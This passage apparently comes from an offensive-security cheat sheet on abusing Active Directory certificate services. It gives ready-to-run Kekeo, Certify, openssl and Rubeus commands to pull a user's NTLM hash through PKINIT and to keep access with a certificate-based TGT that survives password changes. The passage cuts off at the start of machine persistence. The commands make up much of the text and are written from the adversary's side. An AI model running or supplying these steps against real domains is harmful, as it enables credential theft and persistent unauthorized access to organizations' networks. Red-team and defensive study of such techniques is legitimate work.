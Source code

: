 ## Steal NTLM via PKINIT \(THEFT5\) <a id="steal-ntlm-via-pkinit-theft-5"></a>

Request NTLM hash when the account is authenticated with a TGT through PKINIT with Kekeo:

```text
Cmd > .\kekeo.exe "tgt::pac /caname:CA01 /domain:megacorp.local /subject:snovvcrash /castore:current_user" "exit"
```

## Persistence via Certificates <a id="persistence-via-certificates"></a>

##  <a id="persistence-via-certificates"></a>

### User Persistence \(PERSIST1\) <a id="user-persistence-persist-1"></a>

Find certificate templates available for enrollment for the current user:

```text
Cmd > .\Certify.exe find /clientauth
```

Search for any template that allows domain authentication \(a stock published template that allows client authentication is the `User` template\).

Request a new certificate for enrolling current user context:

```text
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User
```

This will output a certificate and private key in `.pem`. To convert it to `.pfx` compatible with Rubeus do:

```text
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After that an adversary can upload it to target and use Rubeus to request a valid TGT, for as long as the certificate is valid \(default certificate lifetime is one year\):

```text
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /certificate:C:\Temp\cert.pfx /password:Passw0rd!
```

This approach will work _even if the user changes their password_. Combined with the **THEFT5** technique, an adversary can also persistently obtain the account's NTLM hash.

### Machine Persistence \(PERSIST2\) <a id="machine-persistence-persist-2"></a>

Same as for **PERSIST1** but requesting a certificate for enrolling current machine context:

